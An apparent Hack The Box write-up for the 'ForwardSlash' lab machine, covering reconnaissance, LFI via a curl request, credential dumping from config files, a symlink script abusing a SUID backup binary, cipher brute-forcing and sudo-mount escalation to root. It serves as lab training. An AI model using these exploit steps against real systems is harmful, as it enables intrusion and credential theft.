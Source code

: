 # User

## nmap

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:3b:eb:54:96:81:1d:da:d7:96:c7:0f:b4:7e:e1:cf (RSA)
|   256 f6:b3:5f:a2:59:e3:1e:57:35:36:c3:fe:5e:3d:1f:66 (ECDSA)
|_  256 1b:de:b8:07:35:e8:18:2c:19:d8:cc:dd:77:9c:f2:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://forwardslash.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http server

Apache, navigating to IP tries to redirect to DNS entry forwardslash.htb.  Adding to to /etc/hosts reveals a defaced website that mentions

```
|  You call this security? LOL, absolute trash server...  |
#Defaced • This was ridiculous, who even uses *XML* and *Automatic FTP Logins*

WE ARE:

-= The loyal followers of *Sharon* (May her soul be blessed). We do not forgive. We do not forget. We are legion. We are The Backslash Gang. =-
```

Enumerating we find a `note.txt` file, and only that file, it contains:

```
Pain, we were hacked by some skids that call themselves the "Backslash Gang"... I know... That name... 
Anyway I am just leaving this note here to say that we still have that backup site so we should be fine.

-chiv
```

## backup.forwardslash.htb

Taking a clue from note.txt, we try a request with a host of backup.forwardslash.htb and we get a session token and different redirect.  Add it to the hosts file and we get redirected to a login.php page in the browser.

### Enumerating backup

register.php says user name is taken for pain.  We can make our own admin account. `pain:password` works as a login.  Looks like `profilepicture.php` allows LFI.  The dev/index.php gives an error that you can access it from your current ip.  Dropping the url into the profilepicture.php shows an XML Api Test page.  It also seems using a php filter with base64 returns files that are not returned with just file://.

## LFI enumeration
Interesting entries from /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
pain:x:1000:1000:pain:/home/pain:/bin/bash
chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

curl command to do post on command line.  Use lfi-exploit.sh to just have to type the file name

```
curl 'http://backup.forwardslash.htb/profilepicture.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36' -H 'Cookie: PHPSESSID=bu71fhqvu463sko2s9sc0te30j' --data-urlencode 'url=file://' --compressed --insecure
```

/etc/apache2/sites-enabled/backup.forwardslash.htb.conf
```conf 
# Place any notes or comments you have here
# It will make any customisation easier to understand in the weeks to come

# domain: backup.forwardslash.htb
# public: /var/www/backup.forwardslash.htb/

<VirtualHost *:80>

  # Admin email, Server Name (domain name) and any aliases
  ServerAdmin webmaster@forwardslash.htb
  ServerName  backup.forwardslash.htb
  ServerAlias backup.forwardslash.htb


  # Index file and Document Root (where the public files are located)
  #DirectoryIndex index.html index.php index
  DirectoryIndex welcome.php index.php
  DocumentRoot /var/www/backup.forwardslash.htb/


  # Custom log file locations
  LogLevel warn
  ErrorLog /var/log/apache2/error-backup.forwardslash.htb.log
  CustomLog /var/log/apache2/access-backup.forwardslash.htb.log combined
  ```

/var/www/backup.forwardslash.htb/config.php
```php
<?php
//credentials for the temp db while we recover, had to backup old config, didn't want it getting compromised -pain
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'www-data');
define('DB_PASSWORD', '5iIwJX0C2nZiIhkLYE7n314VcKNx8uMkxfLvCTz2USGY180ocz3FQuVtdCy3dAgIMK3Y8XFZv9fBi6OwG6OYxoAVnhaQkm7r2ec');
define('DB_NAME', 'site');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
/var/www/backup.forwardslash.htb/dev/index.php has a login and password that works for chiv's ssh.
```php
		if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {

			error_log("Getting file");
```

## XML Api Test
This page can be accessed via the admin account.  It also allows LFI via XXE but why do we need it?  Maybe the designers weren't aware of the php filters?

## ssh as chiv
Searching around we find that there's an encryptinator tool in `/home/pain` as well as a `ciphertext` file.  The `pain` user also has user.txt in its home directory.  We also find a SUID named backup owned by `pain` that outputs some odd text.

## Deciphering and using the backup binary
It outputs the following text when running:
```
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 03:04:20
ERROR: 27a2347cdd27c0debd5d49683156647a Does Not Exist or Is Not Accessible By Me, Exiting...
```
Running it multiple times shows the md5 changes every second.  Moving the binary to local server and stepping through it in `gdb` shows it gets an md5 hash of the current time, checks for a file named after the hash value, and then outputs that file's contents to stdout.  So, let's write a quick script to take advantage of it, utilizing symlinks to dump whatever file we want.
```sh
#!/bin/sh
link="${1}"
test=$(/usr/bin/backup | grep -P '([a-f0-9]{32})' -o)
ln -s ${1} ${test}
/usr/bin/backup
```

Using this against `/var/backup/config.php.bak` yields

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

The password works for pain's account.

# Root

## Breaking the Ciphertext

Write a python script utilizing the functions in the encryptinator code found in pain's home directory.  We iterate through the passwords in a given file(I used rockyou.txt), attempt the decryption, and then check the number of alphanumeric characters in the output.  See `decrypter.py`.  Numerous keys seem to output something.  Although there's something odd going on with the encoding.  Potential output:

```
122:truelymadlydeeply: x	=\mÔÔE¬lL),you liked my new encryption tool, pretty secure huh, anyway here is the key to the encrypted image from /var/backups/recovery: cB!6%sdH8Lj^@Y*$C2cf
123:tilldeathdouspart: «ÛÂô~gq¤¡öån'you liked my new encryption tool, pretty secure huh, anyway here is the key to the encrypted image from /var/backups/recovery: cB!6%sdH8Lj^@Y*$C2cf
```

## Mounting the encrypted backup image
If you enumerate on the `pain` account you'll find you can sudo without password for `cryptsetup` and `mount`.  We can run these commands against the image in `/var/backups/recovery`, using the password, to mount it and view the contents.  You can also just transfer the file to your own machine.  Once you view the unencrytped contents you'll see an SSH private key and can use that to SSH as root.